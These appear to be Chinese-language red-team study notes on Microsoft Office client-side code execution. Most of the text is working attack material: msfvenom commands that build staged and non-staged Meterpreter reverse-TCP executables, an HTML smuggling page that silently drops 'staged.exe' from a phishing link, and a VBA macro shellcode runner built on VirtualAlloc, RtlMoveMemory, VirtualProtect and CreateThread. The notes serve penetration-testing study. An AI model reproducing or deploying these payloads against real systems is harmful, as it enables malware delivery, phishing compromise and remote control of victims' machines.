 # Microsoft Office Client Side Code Executtion
## Staged vs Non-staged Payloads
一般來說平常使用相關 Payload 框架，都會搭配可以使用弱點，也就是說弱點是拿來突破防禦機制，Payload可以說是維持存取的一種手段，維持存取的類型Payload分為
### 以下meterpreter為例:
#### Non-staged Payload (無階段性)
直接在記憶體中呼叫 執行完整的Payload
通常送過去的Payload 大小較大
Ex: windows/meterpreter_reverse_tcp
##### 產生一個 exe
```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=x.x.x.x LPORT=x -f exe -o non-staged.exe
```
#### Staged Payload (有階段性)
只送一小段 Payload 做接應
較穩定，且有其他功能
Ex: windows/meterpreter/reverse_tcp
##### 產生一個 exe
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=x -f exe -o staged.exe
```
## HTML Smuggling 
想要在受害端機器上下載並執行相關的惡意程式，攻擊者會經常使用更謹慎的投放的方式。攻擊者可能將鏈接嵌入到電子郵件，當受害者閱讀電子郵件並存取網頁時，網頁自動下載惡意程式，這種行為就稱為HTML Smuggling
### Example
```
<html><body><script>	
function base64ToArrayBuffer(base64) { var binary_string = window.atob(base64); var len = binary_string.length; var bytes = new Uint8Array( len ); for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); } return bytes.buffer;}
var file = 'TVqQAAMAAAAEAAAA//8AALgAAAAAAA... (產生的base64 )
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'staged.exe'; var a = document.createElement('a');
document.body.appendChild(a); a.style = 'display: none';
var url = window.URL.createObjectURL(blob);
a.href = url; a.download = fileName; a.click();
window.URL.revokeObjectURL(url);
</script></body></html>
```
## Executing Shellcode in Word
### Calling Win32 APIs from VBA
#### C language
`BOOL GetUserNameA(LPSTR lpBuffer,LPDWORD pcbBuffer );`
#### VBA Invoke
`Private Declare Function GetUserName Lib "advapi32.dll" Alias "GetUserNameA" (ByVal lpBuffer As String, ByRef nSize As Long) As Long`
##### https://www.pinvoke.net/default.aspx/advapi32.getusername
##### EXAMPLE
```
Sub MyMacro()
Dim res As Long
Dim MyBuff As String * 256
Dim MySize As Long
Dim strlen As Long
MySize = 256
res = GetUserName(MyBuff, MySize)
strlen = InStr(1, MyBuff, vbNullChar) - 1
MsgBox Left$(MyBuff, strlen)
End Sub
```
### VBA Shellcode Runner
#### Setting Memory Page Parameter
```
Public Enum protectFlags
PAGE_NOACCESS = &H1
PAGE_READONLY = &H2
PAGE_READWRITE = &H4
PAGE_WRITECOPY = &H8
PAGE_EXECUTE = &H10
PAGE_EXECUTE_READ = &H20
PAGE_EXECUTE_READWRITE = &H40
PAGE_EXECUTE_WRITECOPY = &H80
PAGE_GUARD = &H100
PAGE_NOCACHE = &H200
PAGE_WRITECOMBINE = &H400
End Enum
```
#### VirtualAlloc
##### C language
`LPVOID VirtualAlloc( LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect );`
##### VBA Invoke
`Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr`
#### RtlMoveMemory
##### C language
`VOID RtlMoveMemory(VOID UNALIGNED *Destination,VOID UNALIGNED *Source,SIZE_T Length);`
##### VBA Invoke
`Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr`
#### VirtualProtect
##### C language
`BOOL VirtualProtect(LPVOID lpAddress,SIZE_T dwSize,DWORD  flNewProtect,PDWORD lpflOldProtect);`
##### VBA Invoke
`Private Declare PtrSafe Function VirtualProtect Lib "kernel32" (lpAddress As LongPtr, ByVal dwSize As LongPtr, ByVal flNewProtect As LongPtr, lpflOldProtect As LongPtr) As LongPtr`
#### CreateThread
##### C language
`HANDLE CreateThread(LPSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId);`
##### VBA Invoke
`Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr`
#### VBA EXMAPLE CODE
```
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function VirtualProtect Lib "KERNEL32" (ByVal memAddress As LongPtr, ByVal lengthInBytes As LongPtr, ByVal newProtect As protectFlags, ByRef outOldProtect As protectFlags) As Long
Public Enum protectFlags
    PAGE_NOACCESS = &H1
    PAGE_READONLY = &H2
    PAGE_READWRITE = &H4
    PAGE_WRITECOPY = &H8
    PAGE_EXECUTE = &H10
    PAGE_EXECUTE_READ = &H20
    PAGE_EXECUTE_READWRITE = &H40
    PAGE_EXECUTE_WRITECOPY = &H80
    PAGE_GUARD = &H100
    PAGE_NOCACHE = &H200
    PAGE_WRITECOMBINE = &H400
End Enum

Sub MyMacro()
Dim buf As Variant
Dim addr As LongPtr
Dim counter As Long
Dim data As Long
Dim res As Long

Dim originalProtection As protectFlags
Dim vpresult As Long


buf = Array(.......)

addr = VirtualAlloc(0, UBound(buf), &H3000, PAGE_READWRITE)

For counter = LBound(buf) To UBound(buf)
data = buf(counter)
res = RtlMoveMemory(addr + counter, data, 1)
Next counter

vpresult = VirtualProtect(addr, 3, PAGE_EXECUTE_READ, originalProtection)
res = CreateThread(0, 0, addr, 0, 0, 0)

End Sub
```
